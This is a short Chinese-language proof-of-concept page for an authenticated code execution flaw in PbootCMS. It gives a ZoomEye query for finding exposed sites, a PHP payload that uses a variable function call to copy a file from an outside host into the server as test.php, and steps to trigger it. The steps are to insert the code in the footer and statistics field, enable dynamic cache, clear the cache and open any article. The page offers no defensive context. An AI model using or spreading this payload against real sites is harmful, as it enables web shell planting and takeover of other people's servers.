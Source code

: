 ## PbootCMS全版本后台通杀任意代码执行漏洞

## ZoomEye
```
app:"PbootCMS"
```

## poc
```
<?php

$test="copy";

$test("http://IP:8080/1.txt","test.php");

?>
```
在尾部信息和统计代码中（其他位置可能效果一样）插入php代码


![image](https://github.com/wy876/POC/assets/139549762/59c806d4-0ad6-41fd-b63e-8fed7966261f)

然后来到全局配置-配置参数

打开动态缓存(如果本就打开 那则不需要打开) 点击右上角的清除缓存
![image](https://github.com/wy876/POC/assets/139549762/4e5aeaab-c7c8-4fd2-af08-c16f922eb3ec)

![image](https://github.com/wy876/POC/assets/139549762/e96a68d8-205e-4aee-8fd3-e9177a868f40)

然后随便点击任意文章，触发漏洞

![image](https://github.com/wy876/POC/assets/139549762/0e4b0c28-99b4-405c-9e37-be7d1d55bcc9)
